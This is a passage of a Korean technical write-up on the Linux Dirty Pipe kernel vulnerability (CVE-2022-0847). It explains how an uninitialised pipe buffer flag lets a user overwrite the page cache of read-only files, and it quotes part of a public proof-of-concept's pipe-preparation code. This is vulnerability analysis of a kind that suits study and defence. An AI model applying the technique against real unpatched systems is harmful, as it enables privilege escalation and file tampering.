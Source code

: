 ```c

			ret = copy_page_from_iter(buf->page, offset, chars, from);
			if (unlikely(ret < chars)) {
				ret = -EFAULT;
				goto out;
			}

			buf->len += ret;
			if (!iov_iter_count(from))
				goto out;
		}
	}
  ...
}

```
`PIPE_BUF_FLAG_CAN_MERGE`가 설정되어있을 경우 `pipe_write`는 삽입되는 정보를 페이지 캐시에 그대로 작성하게됩니다.

이는 읽기권한만 있는 파일에도 동일하게 적용되며, 플래그가 제대로 초기화되지 않은 시점에서 읽기 권한만 존재하는 파일의 페이지 캐시를 덮어써 원하는 데이터를 읽게 유도할 수 있습니다. 자세한 공격 방식은 PoC 파트에서 알아봅시다.

# PoC

PoC는 <a href="https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit">여기</a>에서 확인할 수 있습니다.

먼저 공격에 사용할 파이프와 파이프 버퍼의 플래그를 설정하는 `prepare_pipe` 함수의 일부입니다.
```c
/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
{
  ...

	/* fill the pipe completely; each pipe_buffer will now have
	   the PIPE_BUF_FLAG_CAN_MERGE flag */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		write(p[1], buffer, n);
		r -= n;
	}

	/* drain the pipe, freeing all pipe_buffer instances (but
	   leaving the flags initialized) */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		read(p[0], buffer, n);
		r -= n;
	}

	/* the pipe is now empty, and if somebody adds a new
	   pipe_buffer without initializing its "flags", the buffer
	   will be mergeable */
}
```

